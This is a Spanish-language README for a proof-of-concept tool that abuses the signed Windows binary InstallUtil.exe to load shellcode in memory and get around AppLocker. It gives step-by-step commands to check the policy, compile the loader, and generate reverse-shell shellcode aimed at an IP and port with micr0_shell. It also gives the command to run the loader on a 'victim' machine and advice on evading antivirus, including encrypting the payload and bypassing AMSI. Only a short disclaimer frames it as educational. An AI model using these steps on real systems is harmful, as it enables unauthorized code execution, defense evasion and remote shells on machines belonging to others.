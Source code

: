 
# 🚀 InstallUtil Shellcode Loader (.NET LOLBAS)

Este proyecto es una prueba de concepto que demuestra cómo abusar del binario legítimo `InstallUtil.exe` para ejecutar código arbitrario en memoria (shellcode), incluso en entornos restringidos con AppLocker habilitado. Utiliza técnicas **LOLBAS (Living Off the Land Binaries and Scripts)** para evadir controles de seguridad.

---

## 📌 ¿Qué es InstallUtil?

`InstallUtil.exe` es una herramienta legítima de Microsoft que se usa para registrar y desinstalar servicios. Se encuentra en:

- **32-bit:** `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe`
- **64-bit:** `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe`

Debido a que está firmada por Microsoft y ubicada en `C:\Windows`, AppLocker suele permitirla bajo sus reglas predeterminadas.

---

## ⚙️ Funcionamiento

Este proyecto define una clase `Installer` personalizada que sobrescribe el método `Uninstall()`. Al ejecutar `InstallUtil.exe /u`, se invoca ese método y se carga un payload (`micr0_shell`) en memoria utilizando llamadas directas a la API de Windows:

- `VirtualAlloc` – reserva memoria RWX
- `Marshal.Copy` – copia el shellcode en esa memoria
- `CreateThread` – ejecuta el shellcode
- `WaitForSingleObject` – espera a que termine

---

## ✅ Validar que AppLocker lo permite

Antes de ejecutar el ataque, asegúrate de que `InstallUtil.exe` está **permitido** por la política efectiva de AppLocker:

```powershell
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe"
```

Si ves:

```
PolicyDecision     MatchingRule
--------------     -------------
Allowed            All files located in the Windows folder
```

✅ ¡Puedes proceder! AppLocker permite el binario y tu bypass funcionará.

---

## 💻 Requisitos

- Sistema de destino: **Windows x64**
- Shellcode compatible con **x64**
- Acceso para ejecutar `InstallUtil.exe` (requiere permisos elevados)
- Mono (para compilar desde Linux)

---

## 🛠️ Compilación (en Linux con Mono)

```bash
sudo apt install mono-complete
mcs -target:library -platform:x64 -r:System.Configuration.Install.dll -out:NotMalware.exe NotMalware.cs
```

---

## 🧨 Generar shellcode

Puedes usar `micr0_shell` para generar shellcode crudo en formato C# (byte array):
git clone https://github.com/senzee1984/micr0_shell

pip install keystone-engine

USO:
python3 'micr0 shell.py' --ip 192.168.1.45 --port 443 --type cmd --language c --variable shellcode --execution false --save True --output buf.bin

Pega el contenido directamente dentro del `byte[] shellcode` en el archivo `.cs`.

---
## 🚀 Ejecución (en Windows víctima)

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Path\NotMalware.exe
```

> El método `Uninstall()` será invocado automáticamente y ejecutará el shellcode en memoria.

---

## 🔐 Evasión adicional (opcional)

Para evitar detección por AV:

- Cifra el shellcode con XOR o AES
- Realiza la decodificación en tiempo de ejecución
- Cambia nombres de clases y métodos
- Aplica AMSI Bypass antes de la carga del shellcode

---

## 🧪 Estructura del repositorio

```
.
├── NotMalware_IU.cs         # Código fuente del loader
└── README.md                # Este archivo
```

---

## ⚠️ Disclaimer

Este código es **únicamente para fines educativos y de investigación**. El uso no autorizado de estas técnicas puede violar leyes locales o internacionales. El autor no se hace responsable del mal uso de esta herramienta. **Úsalo solo en entornos controlados y con permiso explícito.**

---

## 🔗 Referencias

- [LOLBAS Project](https://lolbas-project.github.io/)
- [Microsoft Docs - InstallUtil.exe](https://learn.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool)
- [HTB Academy – Windows Evasion Techniques](https://academy.hackthebox.com/module/254/section/2833/)
```

